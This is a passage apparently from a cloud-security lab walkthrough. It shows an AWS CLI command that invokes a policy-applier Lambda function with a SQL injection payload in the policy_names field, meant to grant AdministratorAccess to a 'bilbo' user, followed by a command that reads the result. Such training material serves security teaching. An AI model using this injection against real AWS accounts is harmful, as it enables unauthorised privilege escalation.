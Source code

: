   <img src="/images/cloud/vullam4.png">
</p>

* Invoke the role applier lambda function, passing the name of the bilbo user and the **injection** payload.
```bash
#The following command will send a SQL injection payload to the lambda function
aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt
#cat the results to confirm everything is working properly
cat out.txt
```
<p align="center">
  <img src="/images/cloud/vullam5.png">
</p>

